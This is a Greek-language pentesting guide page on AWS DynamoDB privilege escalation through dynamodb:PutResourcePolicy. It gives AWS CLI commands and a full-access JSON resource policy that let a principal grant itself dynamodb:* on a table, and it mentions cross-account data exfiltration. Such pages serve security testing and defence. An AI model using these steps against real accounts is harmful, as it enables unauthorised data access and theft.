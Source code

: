 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Για περισσότερες πληροφορίες σχετικά με dynamodb δείτε:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, και προαιρετικά `dynamodb:GetResourcePolicy`

Από τον Μάρτιο του 2024, η AWS προσφέρει *πολιτικές βάσει πόρων* για DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Άρα, αν έχετε το `dynamodb:PutResourcePolicy` για έναν πίνακα, μπορείτε απλά να δώσετε στον εαυτό σας ή σε οποιονδήποτε άλλο principal πλήρη πρόσβαση στον πίνακα.

Η παροχή του `dynamodb:PutResourcePolicy` σε έναν τυχαίο principal συχνά συμβαίνει κατά λάθος, αν οι διαχειριστές νομίζουν ότι η παροχή του `dynamodb:Put*` θα επιτρέψει μόνο στο principal να προσθέτει items στη βάση δεδομένων — ή αν παραχώρησαν αυτό το permissionset πριν τον Μάρτιο του 2024...

Ιδανικά, έχετε επίσης το `dynamodb:GetResourcePolicy`, ώστε να μην αντικαταστήσετε άλλες ενδεχομένως κρίσιμες άδειες, αλλά να εισάγετε μόνο τις πρόσθετες άδειες που χρειάζεστε:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Εάν δεν μπορείτε να ανακτήσετε την τρέχουσα πολιτική, χρησιμοποιήστε απλώς αυτή που δίνει πλήρη πρόσβαση στον πίνακα για τον principal σας:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Αν χρειάζεται να το προσαρμόσετε, εδώ είναι μια λίστα με όλες τις δυνατές ενέργειες του DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Και εδώ είναι μια λίστα με όλες τις ενέργειες που μπορούν να επιτραπούν μέσω resource based policy *AND which of these can be used cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Τώρα, με το policy document `policy.json` έτοιμο, τοποθετήστε το resource policy:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Τώρα, θα πρέπει να έχετε τις permissions που χρειάζεστε.

### Post Exploitation

Όσο γνωρίζω, **δεν υπάρχει άλλος άμεσος τρόπος να escalate privileges in AWS απλώς έχοντας κάποιες AWS `dynamodb` permissions**. Μπορείτε να **διαβάσετε ευαίσθητες** πληροφορίες από τους πίνακες (οι οποίες μπορεί να περιέχουν AWS credentials) και να **γράψετε πληροφορίες στους πίνακες** (οι οποίες μπορεί να ενεργοποιήσουν άλλες ευπάθειες, όπως lambda code injections...) αλλά όλες αυτές οι επιλογές έχουν ήδη εξεταστεί στη **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Ανάγνωση δεδομένων εκμεταλλευόμενοι τα data Streams

{{#include ../../../../banners/hacktricks-training.md}}
